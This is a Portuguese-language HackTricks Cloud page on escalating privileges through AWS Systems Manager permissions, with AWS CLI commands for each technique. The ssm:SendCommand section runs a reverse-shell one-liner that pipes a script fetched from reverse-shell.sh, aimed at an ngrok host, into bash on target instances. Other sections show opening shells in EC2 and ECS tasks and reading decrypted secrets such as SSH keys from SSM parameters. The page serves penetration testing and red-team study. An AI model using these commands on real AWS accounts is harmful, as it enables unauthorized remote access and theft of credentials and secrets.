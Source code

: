 # AWS - SSM Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## SSM

Para mais informações sobre SSM, confira:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Um atacante com a permissão **`ssm:SendCommand`** pode **executar comandos em instâncias** que estão rodando o Amazon SSM Agent e **comprometer o IAM Role** que está rodando dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Caso você esteja usando essa técnica para escalar privilégios dentro de uma instância EC2 já comprometida, você pode simplesmente capturar o rev shell localmente com:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em funcionamento.

### `ssm:StartSession`

Um atacante com a permissão **`ssm:StartSession`** pode **iniciar uma sessão semelhante ao SSH em instâncias** que executam o Agente SSM da Amazon e **comprometer o Papel IAM** que está em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar uma sessão, você precisa do **SessionManagerPlugin** instalado: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados às instâncias em execução com Agentes SSM em execução.

#### Privesc para ECS

Quando as **tarefas ECS** são executadas com **`ExecuteCommand` habilitado**, usuários com permissões suficientes podem usar `ecs execute-command` para **executar um comando** dentro do contêiner.\
De acordo com [**a documentação**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), isso é feito criando um canal seguro entre o dispositivo que você usa para iniciar o comando “_exec_” e o contêiner de destino com o SSM Session Manager. (Plugin do SSM Session Manager necessário para que isso funcione)\
Portanto, usuários com `ssm:StartSession` poderão **obter um shell dentro das tarefas ECS** com essa opção habilitada apenas executando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc direto para os papéis `ECS`IAM anexados a tarefas em execução com `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Um atacante com a permissão **`ssm:ResumeSession`** pode re-**iniciar uma sessão semelhante ao SSH em instâncias** executando o Amazon SSM Agent com um estado de sessão SSM **desconectado** e **comprometer o Papel IAM** em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em execução e sessões desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Um atacante com as permissões mencionadas será capaz de listar os **parâmetros SSM** e **lê-los em texto claro**. Nesses parâmetros, você pode frequentemente **encontrar informações sensíveis** como chaves SSH ou chaves de API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar informações sensíveis dentro dos parâmetros.

### `ssm:ListCommands`

Um atacante com esta permissão pode listar todos os **comandos** enviados e, esperançosamente, encontrar **informações sensíveis** neles.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das linhas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Um atacante com essas permissões pode listar todos os **comandos** enviados e **ler a saída** gerada, na esperança de encontrar **informações sensíveis** nela.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontre informações sensíveis dentro da saída das linhas de comando.

### Codebuild

Você também pode usar o SSM para acessar um projeto de codebuild que está sendo construído:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
